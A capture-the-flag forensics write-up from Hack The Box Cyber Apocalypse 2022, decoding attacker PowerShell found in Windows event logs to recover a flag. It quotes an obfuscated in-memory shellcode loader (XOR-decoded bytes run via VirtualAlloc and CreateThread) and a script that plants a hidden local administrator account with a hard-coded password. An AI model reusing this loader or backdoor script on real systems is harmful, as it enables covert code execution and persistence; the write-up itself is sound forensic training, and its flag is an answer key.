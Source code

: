 ```yaml
---
title: HTB-CA22-forensic-puppeteer
date: "2022-05-19"
description: forensic challenge during Cyber Apocalypse 2022
tldr: powershell deobfuscation
tags: [htb,hackthebox,ca22,cyber-apocalypse22,forensic,powershell,deobfuscation,eventlog]
---
```


## Disclaimer
This was just an exploration in how to do things with both the host-system (windows) and also in linux. Like reading the event-logs and such. The route taken might not be the quickest, but it was fun to experiment with various ways to do things.


## Backstory
Each challenge had a story tied to it, for this challenge it was:   

Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy.  
In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites.  
The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.



## Attack the challenge 
There's a downloadable file: forensics_puppeteer.zip  
containing Windows Logs , which needs to be analyzed in order to see how the satelite location was leaked. We assume that we're looking for some type of GPS coordinates or lat/long.

The usual suspects:  
```  
grep -iR “HTB{” . // Returned nothing  
grep -iR “satelite” . // returned nothing  
grep -iR “lat” . // returned two files, mentioning that they are binary:

grep: ./Microsoft-Windows-LiveId%4Operational.evtx: binary file matches  
grep: ./Microsoft-Windows-Store%4Operational.evtx: binary file matches
```

Analyzing the “LiveId Operational” seems to show some type of communication with tokes and such. Probably rabbithole.  

Next try:  
The files are all named differently, with an annoying `%4` and spaces, so rename all of them and remove spaces from filenames.  
Afterwards, use the program: [https://github.com/omerbenamram/evtx](https://github.com/omerbenamram/evtx)  to convert all the `evtx` files to JSON.

small script to fix filenames:  
```bash
#!/bin/bash  
  
FILER=$(ls /mnt/hgfs/VMSHARED/HTB/cyberApocalypse2022/forensics/puppeteer/Logs/test/*.evtx)    
# remove the space from the names  
for fil in $FILER  
do  
newname=$(echo $fil | sed 's/ //g')  
mv $fil $newname  
done  
  
# remove the %4 from name  
for fil in $FILER  
do  
newname2=$(echo $fil | sed 's/%4//g')  
mv $fil $newname2  
done  
```

and in order to not do everything manually, we simplify the evtx to json: 
```bash  
#!/bin/bash  
  
FILES=$(ls *.evtx)  
#evtx_dump -f <output_file> -o json <input_file>  
for FIL in $FILES; do  
./evtx_dump-v0.7.2-x86_64-unknown-linux-gnu -f "$FIL.json" -o json "$FIL"  
done  
```

A lot of the JSON files were empty, so lets clear those out:  
```shell
mkdir JSON  
mv *.json JSON/  
find JSON/ -empty -type f -delete
```

start searching through the JSON in order to see whether we can find some more interesting strings:  
```shell
grep -iR "HQ" .  
```
  
looking for `special_orders.ps1` led to some more interesting stuff like:

`./Microsoft-Windows-PowerShellOperational.evtx.json: "ScriptBlockText":`
```powershell
 "$OleSPrlmhB = @\"\r\n[DllImport(\"kernel32.dll\")]\r\npublic static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);\r\n[DllImport(\"kernel32.dll\")]\r\npublic static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);\r\n\"@\r\n\r\n[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;\r\n[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;\r\n\r\n$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name \"Win32\" -namespace Win32Functions -passthru;\r\n\r\n[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;\r\n\r\n[array]::Reverse($stage2);\r\n\r\n$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);\r\n\r\n$stage3 = $stage1 + $stage2;\r\n\r\n[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);\r\n\r\n\r\n# Unpack Shellcode;\r\n\r\nfor($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)\r\n{\r\n $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;\r\n}\r\n\r\n#Unpack Special Orders!\r\n\r\nfor($i=0;$i -lt $stage3.count;$i++){\r\n $stage3[$i] = $stage3[$i] -bxor 0xd1;\r\n}\r\n\r\n$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);\r\n"
```

further investigation of files containing `HQ`

in the file: `Microsoft-Windows-PowerShellOperational.evtx ` 
there were some signs of a `backup_op` administrator being created, and some scheduled tasks to sabotage for miyuki  
  
```eventlog
Log Name: Microsoft-Windows-PowerShell/Operational  
Source: Microsoft-Windows-PowerShell  
Date: 2022-05-06 17:43:51  
Event ID: 4104  
Task Category: Execute a Remote Command  
Level: Warning  
Keywords: None  
User: S-1-5-21-2389065719-3342106636-307857974-1002  
Computer: Council-HQ  
Description:  
Creating Scriptblock text (1 of 1):  
# Create a new task action  
$taskAction = New-ScheduledTaskAction -Execute 'powershell.exe';  
$taskTrigger = New-ScheduledTaskTrigger -Daily -At 3PM;  
  
# The name of your scheduled task.  
$taskName = "Elevate Powers"  
  
# Describe the scheduled task.  
$description = "Steal weapons"  
  
# Register the scheduled task  
Register-ScheduledTask -TaskName $taskName -Action $taskAction -Trigger $taskTrigger -Description $description  
  
# Create a new task action  
$taskAction = New-ScheduledTaskAction -Execute 'powershell.exe';  
$taskTrigger = New-ScheduledTaskTrigger -Daily -At 3PM;  
  
# The name of your scheduled task.  
$taskName = "Sabotage Miyuki"  
  
# Describe the scheduled task.  
$description = "Bypass Arms Embargo"  
  
# Register the scheduled task  
Register-ScheduledTask -TaskName $taskName -Action $taskAction -Trigger $taskTrigger -Description $description  
  
#start windows update service  
Get-Service -Name wuauserv | Start-Service -Verbose  
  
#delete childs  
Get-ChildItem "C:\Windows\SoftwareDistribution\*" -Recurse -Force -Verbose -ErrorAction SilentlyContinue | remove-item -force -Verbose -recurse -ErrorAction SilentlyContinue  
  
#clear temp folder  
Get-ChildItem "C:\users\*\AppData\Local\Temp\*" -Recurse -Force -ErrorAction SilentlyContinue |  
  
Where-Object { ($_.CreationTime -lt $(Get-Date).AddDays(-$DaysToDelete))} |  
  
remove-item -force -Verbose -recurse -ErrorAction SilentlyContinue  
  
  
cleanmgr /sagerun:12  
  
do {  
  
"waiting for cleanmgr to complete. . ."  
  
start-sleep 5  
  
} while ((get-wmiobject win32_process | where-object {$_.processname -eq ‘cleanmgr.exe’} | measure).count)  
  
  
# Create Admin Account  
function Create-NewLocalAdmin {  
[CmdletBinding()]  
param (  
[string] $NewLocalAdmin,  
[securestring] $Password  
)  
begin {  
}  
process {  
New-LocalUser "$NewLocalAdmin" -Password $Password -FullName "$NewLocalAdmin" -Description "Temporary local admin"  
Write-Verbose "$NewLocalAdmin local user crated"  
Add-LocalGroupMember -Group "Administrators" -Member "$NewLocalAdmin"  
Write-Verbose "$NewLocalAdmin added to the local administrator group"  
}  
end {  
}  
}  
$NewLocalAdmin = "backup_op";  
$Password = ConvertTo-SecureString "sup3rk3y" -AsPlainText -Force;  
  
Create-NewLocalAdmin -NewLocalAdmin $NewLocalAdmin -Password $Password
```

save the `special_orders.ps1` script , and modify the code so just unpacking the special orders is run:

```powershell
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;  
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;  
[array]::Reverse($stage2);  
  
$stage3 = $stage1 + $stage2;  
  
#Unpack Special Orders!  
  
for ($i = 0; $i -lt $stage3.count; $i++) {  
$stage3[$i] = $stage3[$i] -bxor 0xd1;  
}  
write-host $stage3
```

run the powershell script and get characters in decimal output:  
```shell
72 84 66 123 98 51 119 104 52 114 51 95 48 102 95 116 104 51 95 98 48 48 116 53 95 48 102 95 106 117 115 116 49 99 51 46 46 46 125
```

run that through cyberchef with decimal to ascii and get:   
HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}


Flag: `HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}`